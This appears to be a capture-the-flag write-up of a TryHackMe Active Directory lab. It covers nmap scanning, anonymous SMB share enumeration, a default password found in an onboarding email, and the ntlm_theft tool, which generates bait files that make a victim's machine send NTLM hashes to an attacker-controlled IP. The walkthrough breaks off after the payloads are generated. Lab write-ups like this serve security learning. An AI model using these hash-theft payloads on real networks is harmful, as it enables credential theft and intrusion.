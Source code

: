![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b80efa3b-6d37-4d1c-8644-d3ec7599a228)

first enumeration with nmap 

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:28:13 2024 as: nmap -p- --min-rate 1000 -v -Pn -oN full.tcp 10.10.230.101
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00056s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
7680/tcp  open  pando-pub
9389/tcp  open  adws
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49703/tcp open  unknown
MAC Address: 02:24:96:14:7C:EB (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Feb 10 17:30:33 2024 -- 1 IP address (1 host up) scanned in 140.66 seconds
```
we can see the open ports, let's run nmap default scripts scan to know what services are running on these ports

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:34:41 2024 as: nmap -sCV -T4 -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,7680,9389 -Pn -oN service.tcp
 10.10.230.101                 
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00045s latency).                                                
                                                                              
PORT     STATE    SERVICE       VERSION    
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 17:34:49Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2024-01-25T21:01:31                                                                                                                     
|_Not valid after:  2024-07-26T21:01:31 
| rdp-ntlm-info:                                                                                                                                            
|   Target_Name: THM                                                                                                                                        
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-10T17:34:49+00:00
|_ssl-date: 2024-02-10T17:35:29+00:00; 0s from scanner time.
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp filtered pando-pub
9389/tcp open     mc-nmf        .NET Message Framing
MAC Address: 02:24:96:14:7C:EB (Unknown)
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-10T17:34:50
|_  start_date: N/A
|_nbstat: NetBIOS name: HAYSTACK, NetBIOS user: <unknown>, NetBIOS MAC: 022496147ceb (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 10 17:35:29 2024 -- 1 IP address (1 host up) scanned in 48.40 seconds
```
now we know what services are running on these ports

## Enumerating smb

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/reset]
└─$ smbclient -L HayStack.thm.corp -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to HayStack.thm.corp failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
checking for null share session, we can see a Data share. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/00c95ff9-7b5e-4e3c-99f9-6b0941815616)

checking the share, we can see some files, we downloaded the files. 

```shell
└─$ cat cjexnwvf.e0i.txt
Subject: Welcome to Reset -Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team 
```
checking the content of the txt file, we got a password `ResetMe123!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5e223f93-149f-4968-8463-5715d888acb6)

we have write permission to the smb server, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dc3c8f28-22d9-4686-8eab-bccdd5fc58e7)

after long research we got how to steal ntlm hash using responder with this ntlm_theft payload. [payload_gen](https://github.com/Greenwolf/ntlm_theft).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2b0c83d9-912b-4342-9f76-e4f45ae42036)

```shell
┌──(root㉿kali)-[~/ntlm_theft]                                                                                                                              
└─# python ntlm_theft.py                                                                                                                                    
usage: ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
ntlm_theft.py: error: the following arguments are required: -g/--generate, -s/--server, -f/--filename
                                                                                                                                                            
┌──(root㉿kali)-[~/ntlm_theft]                                                
└─# python ntlm_theft.py --generate all --server 10.10.135.72 --filename testing 
Created: testing/testing.scf (BROWSE TO FOLDER)              
Created: testing/testing-(url).url (BROWSE TO FOLDER)
Created: testing/testing-(icon).url (BROWSE TO FOLDER)                        
Created: testing/testing.lnk (BROWSE TO FOLDER)                               
Created: testing/testing.rtf (OPEN)                                           
Created: testing/testing-(stylesheet).xml (OPEN)                              
Created: testing/testing-(fulldocx).xml (OPEN)                                
Created: testing/testing.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: testing/testing-(includepicture).docx (OPEN)
Created: testing/testing-(remotetemplate).docx (OPEN)
Created: testing/testing-(frameset).docx (OPEN)
Created: testing/testing-(externalcell).xlsx (OPEN)
Created: testing/testing.wax (OPEN)
Created: testing/testing.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: testing/testing.asx (OPEN)
Created: testing/testing.jnlp (OPEN)
Created: testing/testing.application (DOWNLOAD AND OPEN)
Created: testing/testing.pdf (OPEN AND ALLOW)
Created: testing/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: testing/Autorun.inf (BROWSE TO FOLDER)
Created: testing/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```
run the exploit to see how it works and generated some payloads we can use. 




